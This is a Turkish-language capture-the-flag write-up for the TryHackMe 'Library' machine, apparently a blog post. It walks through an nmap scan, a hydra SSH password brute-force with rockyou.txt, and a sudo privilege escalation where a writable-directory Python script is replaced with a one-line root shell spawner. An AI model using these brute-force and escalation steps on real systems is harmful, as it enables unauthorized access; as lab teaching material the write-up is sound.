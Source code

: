 ```yaml
---
title: 'TryHackMe | Library WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [sudo, hydra, brute force]
render_with_liquid: false
---
```


Bu yazımda TryHackMe platformunda yer alan “Library” isimli meydan okumayı çözeceğim. Öncelikle makine üzerinde çalışan servisleri ve bu servislerin versiyonlarını tespit etmek için nmap aracını kullanacağım.

```console
$ nmap -sC -sV -T4 10.10.123.246
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to  Blog - Library Machine
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Sadece 80 ve 22 numaralı portların açık olduğunu öğrendik. Versiyonlarında herhangi bir sorun görünmüyor. Web uygulamasında ise bir gönderi ve gönderiyi yazan kişinin ismi bulunuyor. En azından işimize yarayacak tek bilgi bu. Kullanıcı adını öğrendiğimize göre hydra aracı ile deneme yanılma saldırısı yapabiliriz.

```console
$ hydra -l meliodas -P Desktop/rockyou.txt ssh://10.10.123.246
...
[DATA] attacking ssh://10.10.123.246:22/
[22][ssh] host: 10.10.123.246   login: meliodas   password: i******1
```

Biraz bekletti ama kullanıcının parolasını öğrendik. SSH servisine bağlandıktan sonra “sudo -l” komutunu kullandım ve python ile bir dosyayı çalıştırdığını gördüm.

```console
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

Dosyanın içeriğini aşağıda görüyorsunuz.

```py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Gördüğünüz üzere çalıştırıldığında /var/www/html dizinindeki dosyaları /var/backups/website.zip dosyasına yazdırıyor.

Python dosyasını düzenleme yetkimiz bulunmuyor, ancak silebiliyoruz. Sildikten sonra yeni bir bak.py dosyası oluşturacak ve aşağıdaki kodu yazacağız.

```py
import os;os.system("/bin/bash")
```

Böylece dosyayı çalıştırdığımızda root yetkisinde bash’e geçiş yapmış olacağız.

```console
meliodas@ubuntu:~$ rm bak.py 
rm: remove write-protected regular file 'bak.py'? y
meliodas@ubuntu:~$ ls
user.txt
meliodas@ubuntu:~$ nano bak.py
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py
root@ubuntu:~# ls /root/
root.txt
```
